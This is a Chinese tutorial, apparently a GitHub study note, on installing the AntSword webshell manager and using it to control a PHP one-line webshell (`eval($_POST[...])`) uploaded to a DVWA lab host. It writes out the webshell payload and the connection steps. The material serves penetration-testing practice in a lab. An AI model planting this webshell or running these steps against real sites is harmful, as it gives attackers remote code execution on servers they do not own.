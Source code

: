 # 二、蚁剑  
蚁剑GitHub获取：  
蚁剑：[https://github.com/AntSwordProject/antSword](https://github.com/AntSwordProject/antSword)  
蚁剑加载器：[https://github.com/AntSwordProject/AntSword-Loader](https://github.com/AntSwordProject/AntSword-Loader)

## 0x00_ 目标

1. 能掌握蚁剑基本使用即可。

## 0x01_蚁剑的使用方法  

##### a. 安装配置蚁剑  

进入GitHub，先下载蚁剑安装包  
以下载蚁剑加载器列：  
访问地址：https://github.com/AntSwordProject/AntSword-Loader  
在网页右侧有Releases栏，点击进入  

![Alt](picture/1_1.jpg)  

在发布版本中找到适合自己系统的版本，下载：  

![Alt](picture/1_2.jpg)  

安装过程只管下一步就好，在此省略。  
在安装过程中，可以同步下载蚁剑源码，建议如同加载器类似，在发布版本中下载源码。  
加载器安转完成后打开：  

![Alt](picture/1_3.jpg)  

点击初始化，在文件夹中选中蚁剑源码：  

![Alt](picture/1_4.jpg)   

到此蚁剑配置完成。  

##### b. 蚁剑连接木马

文件上传详细步骤请参考“一、菜刀”，本次上传源码为：  

> <?php eval($_POST["CV"]); ?>  

![Alt](picture/1_5.jpg)   

上传木马后，网站返回如下，可得连接地址：http://192.168.56.101/dvwa/hackable/uploads/tmp.php  

![Alt](picture/1_6.jpg)   

返回蚁剑，在数据管理列表中右键，然后选择“添加数据”  

![Alt](picture/1_7.jpg)   

配置木马地址和密码：  

![Alt](picture/1_8.jpg)   

在请求信息中添加cookie信息，然后点击添加：  

![Alt](picture/1_9.jpg)   

在生成的数据管理列表中双击即可连接木马：  

![Alt](picture/1_10.jpg)   
![Alt](picture/1_11.jpg)   

-------------

### 推广：  

欢迎加入本人的QQ技术讨论群（CV技术讨论群）：736342355  
**CV，尽力做最专业的Ctrl+C、Ctrl+V的姿势搬运工。**